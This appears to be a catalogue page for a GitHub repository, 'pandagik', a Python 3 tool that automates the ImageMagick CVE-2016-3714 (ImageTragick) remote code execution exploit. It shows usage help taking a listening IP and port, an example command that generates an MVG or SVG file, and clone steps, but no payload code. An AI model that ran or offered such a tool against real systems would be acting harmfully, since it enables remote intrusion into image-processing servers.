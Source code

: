 # pandagik

Image Magick Exploit for CVE-2016–3714

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/MrrRaph](https://github.com/MrrRaph) |
| Url      | [https://github.com/MrrRaph/pandagik](https://github.com/MrrRaph/pandagik)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* exploit* imagemagick* python3* rce

</details>

## Readme

# pandagik
## Author: [Raphael Dray](https://www.linkedin.com/in/raphaeldray/)
Image Magick Exploit (CVE-2016-3714) automated in Python 3.

### Usage:
```bash
❯ python3 pandagik.py -h
usage: pandagik.py [-h] (--mvg | --svg) LHOST LPORT

ImageTragick Exploit

positional arguments:
  LHOST       Listening IP
  LPORT       Listening Port

options:
  -h, --help  show this help message and exit

File Type:
  --mvg       MVG File
  --svg       SVG File
```

You can either generate a MVG (`--mvg`) or a SVG (`--svg`):
```bash
python3 pandagik.py --mvg 192.168.13.37 1337
```



## Get the content

```
git clone https://github.com/MrrRaph/pandagik
cd pandagik
```

{% embed url="https://github.com/MrrRaph/pandagik" %}

<figure><img src="https://avatars.githubusercontent.com/u/45815627?v=4" alt=""><figcaption><p>MrrRaph</p></figcaption></figure>
